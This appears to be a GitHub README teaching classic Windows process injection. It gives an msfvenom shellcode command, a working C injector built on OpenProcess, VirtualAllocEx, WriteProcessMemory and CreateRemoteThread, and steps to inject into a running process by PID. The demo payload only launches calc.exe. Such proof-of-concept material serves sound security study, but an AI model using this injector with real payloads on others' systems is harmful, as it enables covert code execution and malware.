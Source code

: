 # Classic Injection

---

# ℹ️ What is Classic Process Injection?

**Windows Classic Process Injection** refers to traditional techniques for injecting and executing arbitrary code inside another process on the Windows operating system. These methods leverage well-documented and widely available Windows API functions, making them popular among both attackers and security researchers.

---

## 📌 Key Characteristics:
- Based on **standard Windows APIs**.
- Common in malware, penetration testing, and red team tools.
- Often detected by modern security solutions (AV/EDR).
- Easy to implement and ideal for learning.

---

## 📚 Core Windows APIs Used:
| API                  | Purpose                                      |
|----------------------|---------------------------------------------|
| `OpenProcess`        | Opens a handle to the target process.        |
| `VirtualAllocEx`     | Allocates memory within the target process.  |
| `WriteProcessMemory` | Writes the shellcode or payload into memory. |
| `CreateRemoteThread` | Creates a thread in the target process to execute the payload. |

---

## 🔍 Common Classic Injection Techniques:
1. **CreateRemoteThread + WriteProcessMemory Injection:**  
   Most popular method for injecting shellcode or DLLs.
   
2. **LoadLibrary Injection:**  
   Injects a DLL by passing its path to `LoadLibrary` via a remote thread.

3. **Shellcode Injection (Manual Mapping Basics):**  
   Direct injection and execution of shellcode in the remote process memory.

---

## 📜 Why Is It Called "Classic"?
These methods are referred to as **classic** because they are among the earliest and simplest process injection techniques ever documented. Despite being old, they are still widely studied and used as the foundation for more advanced injection methods.

---

## ✅ Advantages:
- Easy to understand and implement.
- Great for learning about process memory and Windows internals.
- Useful for proof-of-concept (PoC) demonstrations.

---

## ⚠️ Limitations:
- Easily detectable by modern security tools.
- Lacks built-in stealth or evasion techniques.
- Requires OPSEC enhancements for real-world red team use.

---

## 🚨 Disclaimer:
This document and the techniques described are intended for **educational and research purposes only**. Unauthorized or malicious use of these techniques is strictly prohibited.

---

## 💣 Shellcode (Spawns calc.exe)


This is the shellcode used in this project (generated via msfvenom):
```powershell
msfvenom.bat -p windows/x64/exec CMD=calc.exe -f c
```
<img width="673" alt="calc-payload-1" src="https://github.com/user-attachments/assets/0992e1d4-d465-4c8c-b31f-f463e3c97049" />

---

## 🖥️  Setting Up in Visual Studio (Step by Step)

1. Open Visual Studio.

2. Click on "Create a new project."

3. Select "Empty Project" under C/C++ projects.

4. Name the project (example: Project1).

5. Click "Create."

6. In Solution Explorer:

    - Right-click on Source Files → Add → New Item.

    - Choose C File (.c) → Name it injection.c.

7. Paste your injector code (with the shellcode above) into injection.c.

## 🔍 Code Explanation — injection.c

```c
#include "Windows.h"  // Windows API header for process/memory/thread functions

int main(int argc, char *argv[]) {

    // Shellcode payload (this one spawns calc.exe, generated with msfvenom)
    unsigned char buf[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"  // Raw shellcode bytes
        /* ... (rest of shellcode bytes) ... */
        "\x63\x61\x6c\x63\x00";  // Shellcode likely spawns calculator

    // Open the target process using its PID passed as a command-line argument (argv[1])
    HANDLE hprocess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));

    // Allocate memory inside the target process for the shellcode (read, write, execute permissions)
    LPVOID shellmem = VirtualAllocEx(
        hprocess, NULL, sizeof buf, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE
    );

    // Write the shellcode into the allocated memory inside the target process
    WriteProcessMemory(hprocess, shellmem, buf, sizeof buf, NULL);

    // Create a new thread in the target process that starts executing the shellcode
    HANDLE malthread = CreateRemoteThread(
        hprocess, NULL, 0, (LPTHREAD_START_ROUTINE)shellmem, NULL, 0, NULL
    );

    // Exit the injector (the injected shellcode keeps running in the target process)
    return 0;
}

```
---

## 🏗️ Build & 🚀 Execute the Project

  - Press Ctrl+Shift+B or Build → Build Solution.

## ✅ Execution:

Run a target process (like notepad.exe) manually or via terminal:

Get its Process ID (PID) using Task Manager or Process Hacker.

Run your injector from the terminal with the target PID:

```powershell
Project1.exe 4321
```
## 💥 The shellcode will now execute inside the target process, spawning calc.exe.

https://github.com/user-attachments/assets/f070e9e1-6d29-476d-92fe-e3e562e9edad


---

## 🧑‍💻 Further Reading:
- [MSDN Process Functions](https://learn.microsoft.com/en-us/windows/win32/procthread/process-creation)
- Malware Development Blogs and Resources
